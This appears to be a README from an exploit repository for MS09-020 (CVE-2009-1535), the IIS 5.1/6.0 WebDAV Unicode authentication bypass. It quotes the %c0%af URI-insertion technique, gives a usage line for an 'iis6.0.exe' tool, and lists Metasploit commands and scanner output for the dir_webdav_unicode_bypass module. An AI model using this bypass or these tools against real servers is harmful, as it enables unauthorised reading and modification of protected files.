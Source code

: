 # MS09-020
```
The WebDAV extension in Microsoft Internet Information Services (IIS) 5.1 and 6.0 allows remote attackers to bypass URI-based protection mechanisms, 
and list folders or read, create, or modify files, via a %c0%af (Unicode / character) at an arbitrary position in the URI, 
as demonstrated by inserting %c0%af into a "/protected/" initial pathname component to bypass the password protection on the protected\ folder, 
aka "IIS 5.1 and 6.0 WebDAV Authentication Bypass Vulnerability," a different vulnerability than CVE-2009-1122.
```

Vulnerability reference:
 * [MS09-020](https://technet.microsoft.com/library/security/ms09-020)
 * [CVE-2009-1535](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-1535)

Usage:
```
iis6.0.exe command
```
![iis6](iis6.0.png)  

## load the module within the Metasploit
[msf judgment](https://www.rapid7.com/db/modules/auxiliary/scanner/http/dir_webdav_unicode_bypass)
```
msf > use auxiliary/scanner/http/dir_webdav_unicode_bypass
msf auxiliary(dir_webdav_unicode_bypass) > show actions
    ...actions...
msf auxiliary(dir_webdav_unicode_bypass) > set ACTION <action-name>
msf auxiliary(dir_webdav_unicode_bypass) > show options
    ...show and set options...
msf auxiliary(dir_webdav_unicode_bypass) > run
```
```
msf auxiliary(webdav_scanner) > run

[+] 192.168.16.136 (Microsoft-IIS/6.0) has WEBDAV ENABLED
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```